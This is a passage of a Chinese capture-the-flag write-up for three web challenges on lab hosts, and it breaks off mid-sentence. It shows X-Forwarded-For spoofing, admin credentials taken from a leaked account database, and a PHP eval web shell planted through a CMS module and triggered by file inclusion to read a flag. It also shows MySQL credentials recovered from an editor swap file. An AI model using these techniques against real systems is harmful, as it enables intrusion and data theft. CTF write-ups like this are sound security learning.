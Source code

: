 
# 6、Invisible #

隐藏IP来保护自己。http://121.195.186.234

打开不知道要干什么，猜测是改xff，随便一改就过了...

# 7、Normal_normal #

提示：phpwind 后台getxxxxx
又是一个bbs。http://question6.erangelab.com/

看文章发现了邮箱`zhangrendao2008#126.com`

队友找到了一个社工裤，得到
```
帐号zhangrendao密码zhang2010
```

进入后台`http://question6.erangelab.com/admin.php`

在编辑模块的时候，发现其中有一个自定义html，可以直接写代码，那么我们就构造

```
<?php echo 'test';eval($_POST['a']) ?>
```
翻了翻找到外部调用的接口，这个接口是通过php文件包含实现的，那么我们的想法可行

```
http://question6.erangelab.com/index.php?m=design&c=api&token=MOw0mvL9kj&id=44&format=script
```
get shell
```
a=$username=file_get_contents('./flag-3g5WFxt7Fxp09C.txt');var_dump($username);
&csrf_token=e24bceb1c744db43

flag{n0rmal_meth0d_n0rmal_l1fe}
```

# 8、DBexplorer #

提示：a.SELECT @@datadir 。。。mysql/user.MYD b.user.MYD
Where is my data。http://question7.erangelab.com/（请不要修改密码！）

进去发现了`.db.php.swp`,得到当前账户的号和密码，然后发现了phpmyadmin

```
username:ctfdb	password:ctfmysql123
```

通过`SELECT @@datadir`，我们可以得到mysql的路径是`/var/lib/mysql/`

配合网上的搜索，文件的路径是`/var/lib/mysql/mysql/user.MYD`

进去发现可以使用table q来读取文件内容数据，使用load_file并不能读到数据...(没有搞明白为什么)

后来发现了load data命令，这里还踩了坑,关于是否使用local的
